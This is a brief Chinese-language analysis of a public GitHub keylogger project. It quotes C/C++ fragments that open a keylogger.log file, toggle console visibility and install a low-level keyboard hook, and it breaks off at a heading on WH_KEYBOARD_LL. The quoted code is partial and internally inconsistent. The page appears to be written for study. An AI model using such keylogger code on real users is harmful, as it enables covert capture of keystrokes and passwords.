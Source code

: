 # 键盘记录

基于Github项目的分析

# 项目1 分析

[https://github.com/GiacomoLaw/Keylogger](https://github.com/GiacomoLaw/Keylogger)

## main

一些全局变量:

```c
#include<Windows.h>
#include<stdio.h>

#define visible
#define FORMAT 0 
HHOOK g_hook;
int output_bufRead(int key_stroke);
KBDLLHOOKSTRUCT kbdStruct;
```

打开一个可写入的文件 keylogger.log

把cmd窗口设置为可见

调用挂钩装载函数

进入死循环

```c
int main()
{
    const char* output_filename = "keylogger.log";
    std::cout << "Logging output to " << output_filename << std::endl;
    gfd.open(output_filename, std::ios_base::app);

    visible_or_not();
    Load_Hook();

    MSG msg;
    while (GetMessage(&msg, NULL, 0, 0))
    {

    }
}
```

## Load_Hook → lp_Hookfunc

### WH_KEYBOARD_LL
